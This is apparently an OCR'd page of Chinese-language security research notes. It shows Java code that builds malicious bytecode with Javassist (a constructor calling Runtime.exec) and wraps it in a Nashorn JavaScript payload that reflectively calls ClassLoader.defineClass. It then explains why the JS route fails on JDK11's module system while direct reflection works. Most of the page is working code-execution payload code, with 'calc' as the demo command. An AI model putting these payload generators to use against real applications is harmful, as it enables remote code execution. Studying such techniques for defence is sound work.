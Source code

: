 
## JDK11

```java
public static String getJsPayload2(String code) throws Exception {
    return "var data = '" + code + "';" +
        "var bytes = java.util.Base64.getDecoder().decode(data);" +
        "var int = Java.type(\"int\");" +
        "var defineClassMethod = java.lang.ClassLoader.class.getDeclaredMethod(" +
        "\"defineClass\", bytes.class, int.class, int.class);" +
        "defineClassMethod.setAccessible(true);" +
        "var cc = defineClassMethod.invoke(" +
        "Thread.currentThread().getContextClassLoader(), bytes, 0, bytes.length);" +
        "cc.getConstructor(java.lang.String.class).newInstance(cmd);";
}

public static byte[] getEvilCode(String cmd) throws Exception {
    ClassPool pool = ClassPool.getDefault();
    CtClass clazz = pool.makeClass("a");
    CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
    constructor.setBody("Runtime.getRuntime().exec(\"" + cmd + "\");");
    clazz.addConstructor(constructor);
    clazz.getClassFile().setMajorVersion(49);
    return clazz.toBytecode();
}
@Test
public void jsTest() throws Exception {
    ScriptEngineManager manager = new ScriptEngineManager();
  manager.getEngineByName("js").eval(getJsPayload2(Base64.getEncoder().encodeToString(getEvilCode("calc"))));
}
```

上面通过js加载字节码会报错

> java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(byte[],int,int) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to module jdk.scripting.nashorn.scripts
>
> at java.base/java.lang.reflect.AccessibleObject.checkCanSetAccessible

但直接运行下面代码却可以

```java
public static void main(String[] args) throws Exception {
    Class<?> c = Class.forName("java.lang.ClassLoader");
    Method method = c.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
    method.setAccessible(true);
    byte[] bytes = getEvilCode("calc");
    Class<?> aClass = (Class<?>) method.invoke(Thread.currentThread().getContextClassLoader(), bytes, 0, bytes.length);
    aClass.newInstance();
}
```
